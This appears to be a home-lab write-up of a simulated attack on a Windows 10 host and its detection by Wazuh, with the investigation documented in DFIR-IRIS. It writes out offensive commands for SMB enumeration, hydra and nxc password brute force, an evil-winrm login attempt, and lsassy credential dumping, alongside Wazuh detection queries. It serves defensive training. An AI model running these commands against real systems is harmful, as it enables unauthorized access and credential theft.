This case simulates an attacker trying to compromise the Windows 10 host. The investigation includes attacker activity (Kali), SIEM visibility (Wazuh), and incident response workflow (DFIR‑IRIS).
Summary of attacker actions performed from Kali.
Scan the Windows host.


Attempt SMB enumeration.
smbclient -L //10.10.10.20 -N

Weak credential login (simulated brute force).
sudo hydra -l administrator -P /usr/share/wordlists/rockyou.txt -t 1 smb2://10.10.10.20
sudo nxc smb 10.10.10.20 -u administrator -p passwords.txt

WinRM session try.
evil-winrm -i 10.10.10.20 -u testuser -p test123

Simulate credential dumping attempt.
sudo nxc smb 10.10.10.20 -u administrator -p 'administrator' -M lsassy

How Wazuh detected and logged the activity.
Security events.
agent.name: "WIN10-WAZUH_AGENT" AND rule.level >= 5

Failed login alerts.
agent.name: "WIN10-WAZUH_AGENT" AND rule.id: (60122 OR 60105 OR 60112)
agent.name: "WIN10-WAZUH_AGENT" AND data.win.eventdata.logonType: 3 AND rule.level >= 5
agent.name: "WIN10-WAZUH_AGENT" AND rule.id: 60104
# https://github.com/wazuh/wazuh-ruleset/blob/master/rules/0580-win-security_rules.xml



agent.name: "WIN10-WAZUH_AGENT" AND data.win.eventdata.parentImage: *wsmprovhost.exe*

agent.name: "WIN10-WAZUH_AGENT" AND data.win.system.eventID: 10

How the case was documented and analyzed in DFIR‑IRIS.





The attacker performed enumeration, brute force attempts, and login attempts. No compromise occurred. Wazuh successfully detected the activity, and DFIR‑IRIS was used to document the investigation.
